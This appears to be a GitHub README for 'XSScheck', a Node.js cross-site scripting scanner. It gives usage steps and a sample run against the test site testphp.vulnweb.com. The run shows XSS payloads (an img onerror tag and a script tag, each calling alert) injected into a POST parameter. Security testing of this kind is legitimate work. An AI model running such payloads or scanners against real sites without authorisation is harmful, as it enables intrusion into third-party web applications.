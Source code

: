 # XSScheck

XSS scanner by nodejs


## Usage

At first, make sure `phantom.js` in your PATH, then
```
node xsscheck.js
```


## Example

```
 > node xsscheck.js
 
=======> XSScheck Power By VLVK <========

[?] Select method: [G]ET or [P]OST (G/P): P
[?] Enter URL:
[?] > http://testphp.vulnweb.com/search.php?test=query
[?] Enter Parameters:
[?] > searchFor=2&goButton=go
[?] Enter location of Payloadlist (payloads.txt)
[?] >
[+] Use Default payloads...
====================
Path: http://testphp.vulnweb.com/search.php?test=query
Method: Post
Parameter: searchFor
Payload: <img src="x" onerror="alert(/xss/)">
Data: searchFor=2<img src="x" onerror="alert(/xss/)">&goButton=go
====================
====================
Path: http://testphp.vulnweb.com/search.php?test=query
Method: Post
Parameter: searchFor
Payload: <script>alert(/xss/)</script>
Data: searchFor=2<script>alert(/xss/)</script>&goButton=go
====================
```


## Todo

- [ ] concurrent_control
- [ ] 10&16hex_encode